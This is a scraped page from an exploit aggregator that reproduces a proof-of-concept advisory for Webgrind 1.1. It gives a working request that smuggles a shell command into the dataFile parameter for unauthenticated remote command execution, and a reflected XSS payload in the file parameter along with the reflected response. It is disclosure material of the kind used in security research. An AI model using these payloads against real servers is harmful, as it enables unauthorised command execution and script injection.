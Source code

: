 ```yaml
---
title: Webgrind 1.1 - Reflected Cross-Site Scripting (XSS) & Remote Command Execution Vulnerability exploit
url: https://sploitus.com/exploit?id=1337DAY-ID-38320&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-03-28
fetch_date: 2025-10-04T10:50:36.472709
---
```


# Webgrind 1.1 - Reflected Cross-Site Scripting (XSS) & Remote Command Execution Vulnerability exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for Webgrind 1.1 - Reflected Cross-Site Scripting (XSS) & Remote Command Execution Vulnerability

2023-03-27 | CVSS 6.8

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=1337DAY-ID-38320
# Exploit Title: Webgrind 1.1 - Reflected Cross-Site Scripting (XSS) & Remote Command Execution (RCE)
# Discovery by: Rafael Pedrero
# Vendor Homepage: http://github.com/jokkedk/webgrind/
# Software Link : http://github.com/jokkedk/webgrind/
# Tested Version: 1.1
# Tested on:  Windows 10 using XAMPP

# Vulnerability Type: Remote Command Execution (RCE)

CVSS v3: 9.8
CVSS vector: 3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H
CWE: CWE-434

Vulnerability description: Remote Command Execution (RCE) vulnerability in Webgrind <= 1.1 allow remote unauthenticated attackers to inject OS commands via /<webgrind_path_directory>/index.php in dataFile parameter.

Proof of concept:

http://localhost/tools/webgrind/index.php?dataFile=0%27%26calc.exe%26%27&showFraction=0.9&op=function_graph

And the calc.exe opens.

Note: 0'&calc.exe&', & char is neccesary to execute the command.

# Vulnerability Type: reflected Cross-Site Scripting (XSS)

CVSS v3: 6.5
CVSS vector: 3.0/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N
CWE: CWE-79

Vulnerability description: Webgrind v1.1 and before, does not sufficiently
encode user-controlled inputs, resulting in a reflected Cross-Site
Scripting (XSS) vulnerability via the /<webgrind_path_directory>/index.php,
in file parameter.

Proof of concept:

http://localhost/webgrind/index.php?op=fileviewer&file=%3C%2Ftitle%3E%3Cscript%3Ealert%281%29%3B%3C%2Fscript%3E%3Ctitle%3E

Response:
...
<title>
webgrind - fileviewer: </title><script>alert(1);</script><title> </title>
<script type="text/javascript" charset="utf-8">
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)
